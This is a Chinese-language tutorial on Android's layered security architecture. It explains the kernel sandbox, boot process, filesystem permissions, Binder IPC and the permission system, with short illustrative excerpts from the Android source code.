







移动测试端分为安卓类、ios类、小程序类

### 第一章 Android

#### 1.1 Android 技术栈

Android 由四个层组成：Linux 内核，本地用户空间，应用程序框架和应用程序层。有时本地用户空间和应用程序框架层被合并到一个层中，称为 Android 中间件层




**Linux 内核层**。在 Android 中，Linux 内核负责进程，内存，通信，文件系统管理等。虽然 Android 主要依赖于“vanilla" Linux 内核功能，但是已经做出了系统操作所需的几个自定义更改。其中 Binder（一个驱动程序，提供对Android 中的自定义 RPC / IPC 机制的支持），Ashmem（替代标准的 Linux 共享内存功能），Wakelocks（一种防止系统进入睡眠的机制）是最值得注意的更改。虽然这些变化被证明在移动操作系统中非常有用，但它们仍然在 Linux 内核的主要分支之外。**本地用户空间层**。通过本地用户空间，我们可了解在 Dalvik 虚拟机之外运行的所有用户空间组件，并且不属于 Linux Kernel 层。这个层的第一个组件是硬件抽象层（HAL），它与 Linux内核和本地用户空间层之间实际上是模糊的。在 Linux 中，硬件驱动程序嵌入到内核中或作为模块动态加载。虽然 Android 是建立在 Linux 内核之上，它利用了一种非常不同的方法来支持新的硬件。相反，对于每种类型的硬件，Android 定义了一个 API，它由上层使用并与这种类型的硬件交互。硬件供应商必须提供一个软件模块，负责实现在 Android 中为这种特定类型的硬件定义的API。因此，此解决方案不再允许 Android 将所有可能的驱动程序嵌入内核，并禁用动态模块加载内核机制。提供此功能的组件在 Android 中称为硬件抽象层。此外，这样的架构解决方案允许硬件供应商选择许可证，在其下分发它们的驱动程序。

内核通过启动一个名为 init 的用户空间进程来完成其启动。 此过程负责启动 Android 中的所有其他进程和服务，以及在操作系统中执行一些操作。 例如，如果关键服务在 Android 中停止应答，init 进程可以重新启动它。 该进程根据 init.rc 配置文件执行操作。 工具箱包括基本的二进制文件，在 Android [19]中提供 shell 工具的功能。
Android 还依赖于一些关键的守护进程。 它在系统启动时启动，并在系统工作时保持它们运行。 例如， rild （无线接口层守护进程，负责基带处理器和其他系统之间的通信）， servicemanager （一个守护进程，它包含在 Android 中运行的所有 Binder 服务的索引）， adbd （Android Debug Bridge 守护进程，作为主机和目标设备之间的连接管理器）等。
本地用户空间中最后一个组件是本地库。 有两种类型的本地库：来自外部项目的本地库，以及在 Android 自身中开发的本地库。 这些库被动态加载并为 Android 进程提供各种功能。
**应用程序框架层**。 Dalvik 是 Android 的基于寄存器的虚拟机。它允许操作系统执行使用 Java语言编写的 Android 应用程序。在构建过程中，Java 类被编译成由 Dalvik VM 解释的 .dex 文件。 Dalvik VM 特别设计为在受限环境中运行。此外，Dalvik VM 提供了与系统其余部分交互的功能，包括本地二进制和库。为了加速进程初始化过程，Android 利用了一个名为 Zygote 的特定组件。这是一个将所有核心库链接起来的特殊“预热"过程。当新应用程序即将运行时，Android 会从 Zygote 分配一个新进程，并根据已启动的应用程序的规范设置该进程的参数。该解决方案允许操作系统不将链接库复制到新进程中，从而加快应用程序启动操作。在 Android 中使用的 Java 核心库，是从 Apache Harmony 项目借用的。
系统服务是 Android 的最重要的部分之一。 Android 提供了许多系统服务，它们提供了基本的移动操作系统功能，供 Android 应用开发人员在其应用中使用。 例
如， PackageManagerService 负责管理（安装，更新，删除等）操作系统中的 Android 包。 使用 JNI 接口系统服务可以与本地用户空间层的守护进程，工具箱二进制文件和本地库进行交互。 公共 API 到系统服务都是通过 Android 框架库提供的。 应用程序开发人员使用此 API 与系统服务进行交互。
**Android 应用程序层**。 Android 应用程序是在 Android 上运行的软件应用程序，并为用户提供大多数功能。 Stock Android 操作系统附带了一些称为系统应用程序的内置应用程序。 这些是作为 AOSP 构建过程的一部分编译的应用程序。 此外，用户可以从许多应用市场安装用户应用，来扩展基本功能并向操作系统引入新的功能。

#### 1.2 Android 一般安全说明

Android 的核心安全原则是，对手应用程序不应该损害操作系统资源，用户和其他应用程序。
为了促使这个原则的执行，Android 是一个分层操作系统，利用了所有级别提供的安全机制。
专注于安全性，Android 结合了两个层级的组件Linux 内核层和应用程序框架层



在 **Linux 内核层级**，每个应用程序都在特殊的应用程序沙箱中运行。 内核通过使用标准 Linux设施（进程分离，以及通过网络套接字和文件系统的任意访问控制）来强制隔离应用程序和操作系统组件。 这种隔离的实现是，为每个应用程序分配单独的 Unix 用户（UID）和组（GID）标识符。 这种架构决策强制在单独的 Linux 进程中运行每个应用程序。 因此，由于在 Linux 中实现的进程隔离，在默认情况下，应用程序不能相互干扰，并且对操作系统提供的设施具有有限的访问。 因此，应用程序沙盒确保应用程序不能耗尽操作系统资源，并且不能与其他应用程序交互。

Linux 内核层提供的强制机制，有效地使用沙箱，将应用程序与其他应用程序和系统组件隔离。 同时，需要有效的通信协议来允许开发人员重用应用组件并与操作系统单元交互。 该协议称为进程间通信（IPC），因为它能够促进不同进程之间的交互。 在 Android 中，此协议在 Android 中间件层实现（在 Linux 内核层上发布的特殊驱动程序）。 此层级的安全性由IPC 引用监控器提供。 引用监控器调解进程之间的所有通信，并控制应用程序如何访问系统的组件和其他应用程序。 在 Android 中，IPC 引用监控器遵循强制访问控制（MAC）访问控制类型。
默认情况下，所有 Android 应用都在低特权应用程序沙箱中运行。 因此，应用程序只能访问一组有限的系统功能。 Android 操作系统控制应用程序对系统资源的访问，这可能会对用户体验造成不利影响[3]。 该控制以不同的形式实现，其中一些在以下章节中详细描述。 还有一部分受保护的系统功能（例如，摄像头，电话或 GPS 功能），其访问权限应该提供给第三方应用程序。 然而，这种访问应以受控的方式提供。 在 Android 中，这种控制使用权限来实现。 基本上，每个提供受保护系统资源的访问的敏感 API 都被分配有一个权限（Permission）- 它是唯一的安全标签。 此外，受保护特性还可能包括其他应用的组件。

为了使用受保护的功能，应用程序的开发者必须在文件 AndroidManifest.xml 中请求相应的权限。 在安装应用程序期间，Android 操作系统将解析此文件，并向用户提供此文件中声明的权限列表。 应用程序的安装根据“全有或全无"原则进行，这意味着仅当接受所有权限时才安装应用程序。 否则，将不会安装应用程序。 权限仅在安装时授予，以后无法修改。 作为权限的示例，我们考虑需要监控 SMS 传入消息的应用程序。 在这种情况下， AndroidManifest.xml 文件必须在 <uses-permission> 标签中包含以下声明： android.permission.RECEIVE SMS 

### 第二章 Android Linux 内核层安全

#### 2.1 应用沙盒

让我们考虑一个 Android 应用安装的过程。 Android 应用以 Android 软件包（ .apk ）文件的
形式分发。 一个包由 Dalvik 可执行文件，资源，本地库和清单文件组成，并由开发者签名来
签名。 有三个主要媒介可以在 Android 操作系统的设备上安装软件包：
Google Play
软件包安装程序
adb install 工具
Google Play 是一个特殊的应用，它为用户提供查找由第三方开发人员上传到市场的应用，以及安装该应用的功能。虽然它也是第三方应用，但 Google Play 应用（因为使用与操作系统相同的签名进行签名）可访问 Android 的受保护组件，而其他第三方应用则缺少这些组件。
如果用户从其他来源安装应用，则通常隐式使用软件包安装程序。此系统应用提供了用于启动软件包安装过程的界面。由 Android 提供的 adb install 工具主要由第三方应用开发人员使用。虽然前两个媒介需要用户在安装过程中同意权限列表，但后者会安静地安装应用。这就是它主要用于开发工具的原因，旨在将应用安装在设备上进行测试。该过程如图上半部分所示。此图显示了 Android 安全体系结构的更详细的概述。我们将在本文中参考它来解释这个操作系统的特性。
在 Linux 内核层配置应用沙箱的过程如下。 在安装过程中，每个包都会被分配一个唯一的用户标识符（UID）和组标识符（GID），在设备的应用生命周期内不会更改。 因此，在Android 中每个应用都有一个相应的 Linux 用户。 用户名遵循格式 app_x ，并且该用户的UID 等于 Process.FIRST_APPLICATION_UID + x ，其中 Process.FIRST_APPLICATION_UID 常量对应于 10000 。例如，在图 2.1 中， ex1.apk 包在安装期间获得了用户名 app 1 ，UID 等于10001 



在 Linux 中，内存中的所有文件都受 Linux 自定义访问控制（DAC）的约束。访问权限由文件的创建者或所有者为三种用户类型设置：文件的所有者，与所有者在同一组中的用户和所有其他用户。对于每种类型的用户，分配读，写和执行（ r-w-x ）权限的元组。因此，因为每个应用都有自己的 UID 和 GID，Linux 内核强制应用在自己的隔离地址空间内执行。除此之外，应用唯一的 UID 和 GID 由 Linux 内核使用，以实现不同应用之间的设备资源（内存，CPU 等）的公平分离。安装过程中的每个应用也会获得自己的主目录，例如 /data/data/package_name ，其中 package_name 是 Android 软件包的名称，例
如 com.ex.ex1 ，在 Android 中，这个文件夹是内部存储目录，其中应用将私有数据放在里面。分配给此目录的 Linu x 权限只允许“所有者"应用写入并读取此录。有一些例外应该提到。使用相同证书签名的应用能够在彼此之间共享数据，可以拥有相同的 UID 或甚至可以在相同的进程中运行。
这些架构决策在 Linux 内核层上建立了高效的应用沙箱。 这种类型的沙箱很简单，并基于Linux 可选访问控制模型（DAC）的验证。 幸运的是，因为沙盒在 Linux 内核层上执行，本地代码和操作系统应用也受到本章[3]中所描述的这些约束的约束。

#### 2.2 Linux 内核层上的权限约束

通过将 Linux 用户和组所有者分配给实现此功能的组件，可以限制对某些系统功能的访问。
这种类型的限制可以应用于系统资源，如文件，驱动程序和套接字。 Android 使用文件系统权限和特定的内核补丁（称为 Paranoid Networking）[13]来限制低级系统功能的访问，如网络套接字，摄像机设备，外部存储器，日志读取能力等。
使用文件系统权限访问文件和设备驱动程序，可以限制进程对设备某些功能的访问。例如，这种技术被应用于限制应用对设备相机的访问。 /dev/ cam 设备驱动程序的权限设置为 0660 ，属于 root 所有者和摄像机所有者组。这意味着只有以 root 身份运行或包含在摄像机组中的进程才能读取和写入此设备驱动程序。因此，仅包括在相机组中的应用程序可以与相机交互。权限标签和相应组之间的映射在文件框架 /base/data/etc/platform.xml 中定义，摘录如清单 2.1 所示。因此，在安装过程中，如果应用程序已请求访问摄像机功能，并且用户已批准该应用程序，则还会为此应用程序分配一个摄像机 Linux 组 GID（请参阅清单）。因此，此应用程序可以从 /dev/cam 设备驱动程序读取信息。

```
		qa/、/、...
<permissions>
...
<permission name="android.permission.INTERNET" >
<group gid="inet" />
</permission>

<permission name="android.permission.CAMERA" >
<group gid="camera" />
</permission><permission name="android.permission.READ_LOGS" >
<group gid="log" />
</permission>...</permission>
```

Android 中有一些地方可以用于设置文件、驱动和 Unix 套接字的文件系统权限： init 程
序， init.rc 配置文件， ueventd.rc 配置文件和系统 ROM 文件系统配置文件。 它们在第 3
章中会详细讨论。
在传统的 Linux 发行版中，允许所有进程启动网络连接。 同时，对于移动操作系统，必须控
制对网络功能的访问。 为了在 Android 中实现此控制，需要添加特殊的内核补丁，将网络设施的访问限制于属于特定 Linux 组或具有特定 Linux 功能的进程。 这些针对 Android 的 Linux内核补丁已经获得了 Paranoid 网络的名称。 例如，对于负责网络通信的 AF_INET 套接字地址族，此检查在 kernel/net/ipv4/af_inet.c 文件中执行（参见清单中的代码片段）。 Linux组和 Paranoid 网络的权限标签之间的映射也在 platform.xml 文件中设置（例如，参见清单中的第 4 行）。

```c
1 ...
2 #ifdef CONFIG_ANDROID_PARANOID_NETWORK
3 #include <linux/android_aid.h>
4
5 static inline int current_has_network ( void )
6 {
7 return in_egroup_p (AID_INET) || capable (CAP_NET_RAW) ;
8 }
9 #else
10 static inline int current_has_network ( void )
11 {
12 return 1;
13 }
14 #endif
15 ...
16
17 /*
18 * Create an inet socket .
19 */
20
21 static int inet create ( struct net *net , struct socket *sock , int protocol ,
22 int kern )
23 {
24 ...
25 if (!current_has_network() )
26 return −EACCES;
27 ...
28 }
```

类似的 Paranoid 网络补丁也适用于限制访问 IPv6 和蓝牙[19]。
这些检查中使用的常量在内核中硬编码，并在 kernel/include/linux/android_aid.h 文件中规定

因此，在 Linux 内核层，通过检查应用程序是否包含在特殊预定义的组中来实现 Android 权
限。 只有此组的成员才能访问受保护的功能。 在应用程序安装期间，如果用户已同意所请求
的权限，则该应用程序包括在相应的 Linux 组中，因此获得对受保护功能的访问。

### 第三章 Android 本地用户空间层

#### 3.1 Android 引导过程

要了解在本地用户空间层上提供安全性的过程，首先应考虑 Android 设备的引导顺序。 要注意，在第一步中，这个顺序可能会因不同的设备而异，但是在 Linux 内核加载之后，过程通常是相同的。 引导过程的流程如图



当用户打开智能手机时，设备的 CPU 处于未初始化状态。在这种情况下，处理器从硬连线地址开始执行命令。该地址指向 Boot ROM 所在的 CPU 的写保护存储器中的一段代码（参见图 中的步骤 1）。代码驻留在 Boot ROM 上的主要目的是检测 Boot Loader（引导加载程序）所在的介质[17]。检测完成后，Boot ROM 将引导加载程序加载到内存中（仅在设备通电后可用），并跳转到引导 Boot Loader 的加载代码。反过来，Boot Loader 建立了外部RAM，文件系统和网络的支持。之后，它将 Linux 内核加载到内存中，并将控制权交给它。
Linux 内核初始化环境来运行 C 代码，激活中断控制器，设置内存管理单元，定义调度，加载驱动程序和挂载根文件系统。当内存管理单元初始化时，系统为使用虚拟内存以及运行用户空间进程[17]做准备。实际上，从这一步开始，该过程就和运行 Linux 的台式计算机上发生的过程没什么区别了。
第一个用户空间进程是 init ，它是 Android 中所有进程的祖先。 该程序的可执行文件位于Android 文件系统的根目录中。 清单 3.1 包含此可执行文件的主要部分。 可以看出， init 二进制负责创建文件系统基本条目（7 到 16 行）。 之后（第 18 行），程序解析 init.rc 配置文件并执行其中的命令。

```c
1 int main( int argc, char **argv )
2 {
3 ...
4 if (!strcmp (basename( argv[0] ), "ueventd") )
5 return ueventd_main ( argc, argv ) ;
6 ...
7 mkdir("/dev", 0755) ;
8 mkdir("/proc", 0755) ;
9 mkdir("/sys", 0755) ;
10
11 mount("tmpfs", "/dev", "tmpfs", MS_NOSUID, "mode=0755") ;
12 mkdir("/dev/pts", 0755) ;
13 mkdir("/dev/socket", 0755) ;
14 mount("devpts", "/dev/pts", "devpts", 0, NULL) ;
15 mount("proc", "/proc", "proc", 0, NULL) ;
16 mount("sysfs", "/sys", "sysfs", 0, NULL) ;
17 ...
18 init_parseconfig_file("/init.rc") ;
19 ...
20 }
```

init.rc 配置文件使用一种称为 Android Init Language 的语言编写，位于根目录下。 这个配
置文件可以被想象为一个动作列表（命令序列），其执行由预定义的事件触发。 例如，在清
单 3.2 中， fs （行 1）是一个触发器，而第 4 - 7 行代表动作。 在 init.rc 配置文件中编写
的命令定义系统全局变量，为内存管理设置基本内核参数，配置文件系统等。从安全角度来
看，更重要的是它还负责基本文件系统结构的创建，并为创建的节点分配所有者和文件系统
权限

此外， init 程序负责在 Android 中启动几个基本的守护进程和进程（参见图 3.1 中的步骤
5），其参数也在 init.rc 文件中定义。 默认情况下，在 Linux 中执行的进程以与祖先相同的
权限（在相同的 UID下）运行。 在 Android 中， init 以 root 权限（ UID == 0 ）启动。 这
意味着所有后代进程应该使用相同的 UID 运行。 幸运的是，特权进程可以将其 UID 改变为较
少特权的进程。 因此， init 进程的所有后代可以使用该功能来指定派生进程的 UID 和
GID（所有者和组也在 init.rc 文件中定义）。
第一个守护进程派生于 init 进程，它是 ueventd 守护进程。 这个服务运行自己的 main 函数
（参见清单 3.1 中的第 5 行），它读取 ueventd.rc 和 ueventd.[device name].rc 配置文件，
并重放指定的内核 uevent_hotplug 事件。 这些事件设置了不同设备的所有者和权限（参见清
单 3.3）。 例如，第 5 行显示了如何设置文件系统对 / dev/cam 设备的权限，2.2 节中会涉及
这个例子。 之后，守护进程等待监听所有未来的热插拔事件。

由 init 程序启动的核心服务之一是 servicemanager （请参阅图 3.1 中的步骤 5）。 此服务充
当在 Android 中运行的所有服务的索引。 它必须在早期阶段可用，因为以后启动的所有系统
服务都应该有可能注册自己，从而对操作系统的其余部分可见[19]。
init 进程启动的另一个核心进程是 Zygote。 Zygote 是一个热身完毕的特殊进程。 这意味着
该进程已经被初始化并且链接到核心库。 Zygote 是所有进程的祖先。 当一个新的应用启动
时，Zygote 会派生自己。 之后，为派生子进程设置对应于新应用的参数，例如 UID，
GID， nice-name 等。 它能够加速新进程的创建，因为不需要将核心库复制到新进程中。 新
进程的内存具有“写时复制"（COW）保护，这意味着只有当后者尝试写入受保护的内存时，
数据才会从 zygote 进程复制到新进程。 从而，核心库不会改变，它们只保留在一个地方，减
少内存消耗和应用启动时间。

使用 Zygote 运行的第一个进程是 System Server（图 3.1 中的步骤 6）。 这个进程首先运行
本地服务，例如 SurfaceFlinger 和 SensorService。 在服务初始化之后，调用回调，启动剩
余的服务。 所有这些服务之后使用 servicemanager 注册。

#### 3.2 Android 文件系统

虽然 Android 基于 Linux 内核，它的文件系统层次不符合文件系统层次标准[10]，它了定义类
Unix 系统的文件系统布局（见清单 3.4）。 Android 和 Linux 中的某些目录是相同的，例
如 /dev ， /proc ， /sys ， /etc ， /mnt 等。这些文件夹的用途与 Linux 中的相同。 同
时，还有一些目录，如 /system ， /data 和 /cache ，它们不存在于 Linux 系统中。这些文件
夹是 Android 的核心部分。 在 Android 操作系统的构建期间，会创建三个映像文
件： system.img ， userdata.img 和 cache.img 。 这些映像提供 Android 的核心功能，是在设
备的闪存上存储的。 在系统引导期间， init 程序将这些映像安装到预定义的安装点，
如 /system ， /data 和 /cache

/system 分区包含整个 Android 操作系统，除了 Linux 内核，它本身位于 /boot 分区上。 此
文件夹包含子目录 /system/bin 和 /system/lib ，它们相应包含核心本地可执行文件和共享
库。 此外，此分区包含由系统映像预先构建的所有系统应用。 映像以只读模式安装（参见清
单 3.2 中的第 5 行）。 因此，此分区的内容不能在运行时更改。
因此， /system 分区被挂载为只读，它不能用于存储数据。 为此，单独的分区 /data 负责存
储随时间改变的用户数据或信息。 例如， /data/app 目录包含已安装应用程序的所有 apk 文
件，而 /data/data 文件夹包含应用程序的 home 目录。

/cache 分区负责存储经常访问的数据和应用程序组件。 此外，操作系统无线更新（卡刷）也
在运行之前存储在此分区上。
因此，在 Android 的编译期间生成 /system ， /data 和 /cache ，这些映像上包含的文件和文
件夹的默认权限和所有者必须在编译时定义。 这意味着在编译此操作系统期间，用户和组
UID 和 GID 应该可用。 Android 文件系统配置文件（见清单 3.5）包含预定义的用户和组的
列表。 应该提到的是，一些行中的值（例如，参见第 10 行）对应于在 Linux 内核层上定义的
值，如第 2.2 节所述。
此外，文件和文件夹的默认权限，所有者和所有者组定义在该文件中（见清单 3.6）。 这些
规则由 fs_config() 函数解析并应用，它在这个文件的末尾定义。 此函数在映像组装期间调
用。

##### 3.2.1 本地可执行文件的保护

在清单 3.6 中可以看到一些二进制文件分配有 setuid 和 setgid 访问权限标志。例如， su 程
序设置了它们。这个众所周知的工具允许用户运行具有指定的 UID 和 GID 的程序。在 Linux
中，此功能通常用于运行具有超级用户权限的程序。根据列表 3.6，二进
制 /system/xbin/su 的访问权限分配为“06755"（见第 21 行）。第一个非零数“6"意味着该二
进制具有 setuid 和 setgid （ 4 + 2 ）访问权限标志集。通常，在Linux中，可执行文件以与
启动它的进程相同的权限运行。这些标签允许用户使用可执行所有者或组的权限运行程序
[11]。因此，在我们的例子中， binary/system/xbin/su 将以 root 用户身份运行。这些 root 权

限允许程序将其 UID 和 GID 更改为用户指定的 UID 和 GID（见清单 3.7 中的第 15 行）。之
后， su 可以使用指定的 UID 和 GID 启动提供的程序（例如，参见行 22）。因此，程序将以
所需的 UID 和 GID 启动。
在特权程序的情况下，需要限制可访问这些工具的应用程序的范围。 在我们的这里，没有这
样的限制，任何应用程序可以运行 su 程序并获得 root 级别的权限。 在 Android 中，通过将
调用程序的 UID 与允许运行它的 UID 列表进行比较，来对本地用户空间层实现这种限制。 因
此，在第 9 行中， su 可执行文件获得进程的当前 UID，它等于调用它的进程的 UID，在
第 10 行，它将这个 UID 与允许的 UID 的预定列表进行比较。 因此，只有在调用进程的 UID
等于 AID_ROOT 或 AID_SHELL 时， su 工具才会启动。 为了执行这样的检查， su 导入在
Android 中定义的 UID 常量

此外，在较新的版本（从 4.3 开始），Android 核心开发人员开始使用 Capabilities Linux 内
核系统[4]。 这允许它们额外限制需要以 root 权限运行的程序的权限。 例如，对于 su 程序来
说，它不需要具有 root 用户的所有特权。 对于这个程序，它足以有能力修改当前的 UID 和
GID。 因此，此工具只需要 CAP_SETUID 和 CAP_SETGID root 权限来正常运行。

```c
1 #include <private/android_filesystem_config.h>
2 ...
3 int main( int argc, char **argv )
4 {
5 struct passwd *pw;
6 int uid, gid, myuid ;
7
8 /* Until we have something better , only root and the shell can use su . */
9 myuid = getuid () ;
10 if (myuid != AID_ROOT && myuid != AID_SHELL) {
11 fprintf ( stderr, "su : uid %d not allowed to su\n", myuid) ;
12 return 1;
13 }
14 ...
15 if ( setgid ( gid ) || setuid ( uid ) ) {
16 fprintf ( stderr, "su : permission denied\n") ;
17 return 1;
18 }
19
20 /* User specified command for exec . */
21 if ( argc == 3 ) {
22 if ( execlp ( argv[2], argv[2], NULL) < 0) {
23 fprintf ( stderr , "su : exec failed for %s Error:%s\n" , argv [2] ,
24 strerror ( errno ) ) ;
25 return −errno ;
26 }
27 ...
28 }
```

 su 程序的源代码


### 第四章 Android 框架层安全

#### 4.1 Android Binder 框架

如 2.1 节所述，所有 Android 应用程序都在应用程序沙箱中运行。粗略地说，应用程序的沙箱通过在带有不同 Linux 身份的不同进程中运行所有应用程序来保证。此外，系统服务也在具有更多特权身份的单独进程中运行，允许它们使用 Linux Kernel DAC 功能，访问受保护系统不同部分（参见第 2.1, 2.2 和 1.2 节）。因此，需要进程间通信（IPC）框架来管理不同进程之间的数据和信号交换。在 Android 中，一个称为 Binder 的特殊框架用于进程间通信
[12]。标准的 Posix System V IPC 框架不支持由 Android 实现的 Bionic libc 库（参见这里）。此外，除了用于一些特殊情况的 Binder 框架，也会使用 Unix 域套接字（例如，用于与 Zygote 守护进程的通信），但是这些机制不在本文的考虑范围之内。
Binder 框架被特地重新开发来在 Android 中使用。 它提供了管理此操作系统中的进程之间的所有类型的通信所需的功能。 基本上，甚至应用程序开发人员熟知的机制，例如 Intents 和 ContentProvider ，都建立在 Binder 框架之上。 这个框架提供了多种功能，例如可以调用远程对象上的方法，就像本地对象那样，以及同步和异步方法调用，Link to Death（某个进程的 Binder 终止时的自动通知），跨进程发送文件描述符的能力等等[12,16]。
根据由客户端 - 服务器同步模型组织的进程之间的通信。客户端发起连接并等待来自服务端的回复。 因此，客户端和服务器之间的通信可以被想象为在相同的进程线程中执行。 这为开发人员提供了调用远程对象上的方法的可能性，就像它们是本地的一样。 通过 Binder 的通信模型如图 4.1 所示。 在这个图中，客户端进程 A 中的应用程序想要使用进程 B [12]中运行的服务的公开行为




使用 Binder 框架的客户端和服务之间的所有通信，都通过 Linux 内核驱动程序 /dev/binder 进行。此设备驱动程序的权限设置为全局可读和可写（见 3.1 节中的清单 3.3中的第 3 行）。因此，任何应用程序可以写入和读取此设备。为了隐藏 Binder 通信协议的特性， libbinder 库在 Android 中使用。它提供了一种功能，使内核驱动程序的交互过程对应用程序开发人员透明。尤其是，客户端和服务器之间的所有通信通过客户端侧的代理和服务器侧的桩进行。代理和桩负责编码和解码数据和通过 Binder 驱动程序发送的命令。为了使用代理和桩，开发人员只需定义一个 AIDL 接口，在编译应用程序期间将其转换为代理和桩。在服务端，调用单独的 Binder 线程来处理客户端请求。
从技术上讲，使用Binder机制的每个公开服务（有时称为 Binder 服务）都分配有标识。内核驱动程序确保此 32 位值在系统中的所有进程中是唯一的。因此，此标识用作 Binder 服务的句柄。拥有此句柄可以与服务交互。然而，为了开始使用服务，客户端首先必须找到这个值。服务句柄的发现通过 Binder 的上下文管理器（ servicemanager 是 Android Binder 的上下文管理器的实现，在这里我们互换使用这些概念）来完成。上下文管理器是一个特殊的Binder 服务，其预定义的句柄值等于 0（指代清单 4.1 的第 8 行中获得的东西）。因为它有一个固定的句柄值，任何一方都可以找到它并调用其方法。基本上，上下文管理器充当名称服务，通过服务的名称提供服务句柄。为了实现这个目的，每个服务必须注册上下文管理器（例如，使用第 26 行中的 ServiceManager 类的 addService 方法）。因此，客户端可以仅知道与其通信的服务名称。使用上下文管理器来解析此名称（请参阅 getService 第 12 行），客户端将收到稍后用于与服务交互的标识。 Binder 驱动程序只允许注册单个上下文管理器。因此， servicemanager 是由 Android 启动的第一个服务之一（见第 3.1节）。 servicemanager 组件确保了只允许特权系统标识注册服务。

Binder 框架本身不实施任何安全性。 同时，它提供了在 Android 中实施安全性的设施。Binder 驱动程序将发送者进程的 UID 和 PID 添加到每个事务。 因此，由于系统中的每个应用具有其自己的 UID，所以该值可以用于识别调用方。 调用的接收者可以检查所获得的值并且决定是否应该完成事务。 接收者可以调用android.os.Binder.getCallingUid() 和 android.os.Binder.getCallingPid() [12]来获得发送者的 UID 和 PID。 另外，由于 Binder 句柄在所有进程中的唯一性和其值的模糊性[14]，它也可以用作安全标识


#### 4.2 Android 权限

如我们在 2.1 节中所设计的那样，在 Android 中，每个应用程序默认获得其自己的 UID 和GID 系统标识。 此外，在操作系统中还有一些硬编码的标识（参见清单 3.5）。 这些身份用于使用在 Linux 内核级别上实施的 DAC，分离 Android 操作系统的组件，从而提高操作系统的整体安全性。 在这些身份中， AID SYSTEM 最为显著。 此 UID 用于运行系统服务器（ system server ），这个组件统一了由 Android 操作系统提供的服务。 系统服务器具有访问操作系统资源，以及在系统服务器内运行的每个服务的特权，这些服务提供对其他 OS 组件和应用的特定功能的受控访问。 此受控访问基于权限系统。
正如我们在 4.1 节中所提及的，Binder 框架向接收方提供了获得发送方 UID 和 PID 的能力。
在一般情况下，该功能可以由服务利用来限制想要连接到服务的消费者。这可以通过将消费者的 UID 和 PID 与服务所允许的 UID 列表进行比较来实现。然而，在 Android 中，这种功能以略微不同的方式来实现。服务的每个关键功能（或简单来说是服务的方法）被称为权限的特殊标签保护。粗略地说，在执行这样的方法之前，会检查调用进程是否被分配了权限。如果调用进程具有所需权限，则允许调用服务。否则，将抛出安全检查异常（通常， SecurityException ）。例如，如果开发者想要向其应用程序提供发送短信的功能，则必须将以下行添加到应用程序的 AndroidManifest.xml 文件
中： <uses-permission android:name ="android.permission.SEND_SMS"/> 。Android 还提供了一组特殊调用，允许在运行时检查服务使用者是否已分配权限。
到目前为止所描述的权限模型提供了一种强化安全性的有效方法。 同时，这个模型是无效的，因为它认为所有的权限是相等的。 在移动操作系统的情况下，所提供的功能在安全意义上并不总是相等。 例如，安装应用程序的功能比发送 SMS 的功能更重要，相反，发送 SMS的功能比设置警告或振动更危险。

这个问题在 Android 中通过引入权限的安全级别来解决。有四个可能的权限级
别： normal ， dangerous ， signature 和 signatureOrSystem 。权限级别要么硬编码到
Android 操作系统（对于系统权限），要么由自定义权限声明中的第三方应用程序的开发者分
配。此级别影响是否决定向请求的应用程序授予权限。为了被授予权限，正常的权限可以只
在应用程序的 AndroidManifest.xml 文件中请求。危险权限除了在清单文件中请求之外，还必
须由用户批准。在这种情况下，安装应用程序期间，安装包所请求的权限集会显示给用户。
如果用户批准它们，则安装应用程序。否则，安装将被取消。如果请求权限的应用与声明它
的应用拥有相同签名，（6.1 中提到了 Android 中的应用程序签名的用法），系统将授
予 signature 权限。如果请求的权限应用和声明权限的使用相同证书签名，或请求应用位于
系统映像上，则授予 signatureOrSystem 权限。因此，对于我们的示例，振动功能被正常级别
的权限保护，发送 SMS 的功能被危险级别的权限保护，以及软件包安装功能
被 signatureOrSystem 权限级别保护。

##### 4.2.1 系统权限定义

用于保护 Android 操作系统功能的系统权限在框架的 AndroidManifest.xml 文件中定义，位于
Android 源的 frameworks/base/core/res 文件夹中。 这个文件的一个摘录包含一些权限定义的
例子，如代码清单 4.2 所示。 在这些示例中，展示了用于保护发送 SMS，振动器和包安装功
能的权限声明。

默认情况下，第三方应用程序的开发人员无法访问受 signature 和 signatureOrSystem 级别的
系统权限保护的功能。 这种行为以以下方式来保证：应用程序框架包使用平台证书签名。 因
此，需要使用这些级别的权限保护的功能的应用程序必须使用相同的平台证书进行签名。 然
而，仅有操作系统的构建者才可以访问该证书的私钥，通常是硬件生产者（他们自己定制
Android）或电信运营商（使用其修改的操作系统映像来分发设备）。

##### 4.2.2 权限管理

系统服务 PackageManagerService 负责 Android 中的应用程序管理。 此服务有助于在操作系统
中安装，卸载和更新应用程序。 此服务的另一个重要作用是权限管理。 基本上，它可以被认
为是一个策略管理的要素。 它存储了用于检查 Android 包是否分配了特定权限的信息。 此
外，在应用程序安装和升级期间，它执行一堆检查，来确保在这些过程中不违反权限模型的
完整性。 此外，它还作为一个策略判定的要素。 此服务的方法（我们将在后面展示）是权限
检查链中的最后一个元素。 我们不会在这里考虑 PackageManagerService 的操作。 然而，感兴
趣的读者可以参考[15,19]来获得如何执行应用安装的更多细节。
PackageManagerService 将所有第三方应用程序的权限的相关信息存储
在 /data/system/packages.xml [7]中。 该文件用作系统重新启动之间的永久存储器。 但是，在
运行时，所有有关权限的信息都保存在 RAM 中，从而提高系统的响应速度。 在启动期间，
此信息使用存储在用于第三方应用程序的 packages.xml 文件中的数据，以及通过解析系统应
用程序来收集。

##### 4.2.3 Android 框架层的权限实施

为了了解 Android 如何在应用程序框架层强制实施权限，我们考虑 Vibrator 服务用法。 在清
单 4.3 的第 6 行中，展示了振动器服务如何保护其方法 vibrate 的示例。 这一行检查了调用
组件是否分配有由常量 android.Manifest.permission.VIBRATE 定义的标
签 android.permission.VIBRATE 。 Android 提供了几种方法来检查发送者（或服务使用者）是
否已被分配了权限。 在我们这个库，这些设施由方法 checkCallingOrSelfPermission 表示。
除了这种方法，还有许多其他方法可以用于检查服务调用者的权限。


### 第五章 Android 应用层安全


#### 5.1 应用组件

Android 应用以 Android 软件包（ .apk ）文件的形式分发。 一个包由 Dalvik 可执行文件，
资源文件，清单文件和本地库组成，并由应用的开发人员使用自签名证书签名。 每个
Android 应用由四个组件类型的几个组件组成：活动（Activity），服务（Service），广播接
收器（Boardcast Reciver）和内容供应器（Content Provider）。 将应用分离为组件有助于
应用的一部分在应用之间重用。
活动。 活动是用户界面的元素之一。 一般来说，一个活动通常代表一个界面。
服务。 服务是 Android 中的后台工作装置。 服务可以无限期运行。 最知名的服务示例是在后
台播放音乐的媒体播放器，即使用户离开已启动此服务的活动。
